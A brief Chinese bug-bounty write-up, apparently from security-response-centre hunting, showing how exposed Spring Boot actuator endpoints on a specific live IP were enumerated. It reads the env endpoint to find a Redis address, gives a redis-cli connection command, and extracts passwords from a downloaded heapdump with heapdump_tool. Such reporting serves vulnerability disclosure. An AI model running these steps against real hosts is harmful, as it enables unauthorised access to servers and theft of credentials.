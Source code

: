 ![image-20241014100926773](https://image.201068.xyz/assets/src挖掘/image-20241014100926773.png)

```python
http://47.122.57.88:6969/api/actuator
http://47.122.57.88:6969/api/actuator/./env
http://47.122.57.88:6969/api/actuator/beans
http://47.122.57.88:6969/api/actuator/caches
http://47.122.57.88:6969/api/actuator/conditions
http://47.122.57.88:6969/api/actuator/configprops
http://47.122.57.88:6969/api/actuator/features
http://47.122.57.88:6969/api/actuator/health
http://47.122.57.88:6969/api/actuator/info
http://47.122.57.88:6969/api/actuator/loggers
http://47.122.57.88:6969/api/actuator/metrics
http://47.122.57.88:6969/api/actuator/mappings
http://47.122.57.88:6969/api/actuator/scheduledtasks
http://47.122.57.88:6969/api/actuator/prometheus
http://47.122.57.88:6969/api/actuator/threaddump
```

![image-20241014102354073](https://image.201068.xyz/assets/src挖掘/image-20241014102354073.png)

![image-20241014095810138](https://image.201068.xyz/assets/src挖掘/image-20241014095810138.png)

### /api/actuator/env

http://47.122.57.88:6969/api/actuator/env

![image-20241014092810676](https://image.201068.xyz/assets/src挖掘/image-20241014092810676.png)

![image-20241014103445358](https://image.201068.xyz/assets/src挖掘/image-20241014103445358.png)

> redis://47.122.42.77:16379
>
> 47.122.42.77
>
> 16379
>
> ./redis-cli -h 47.122.42.77 -p 16379

![image-20241014101100842](https://image.201068.xyz/assets/src挖掘/image-20241014101100842.png)

### /api/actuator/heapdump

http://47.122.57.88:6969/api/actuator/heapdump 发现actuator.heapdump敏感文件泄露

### heapdump_tool

```python
java -jar heapdump_tool.jar heapdump
0
password
access
```
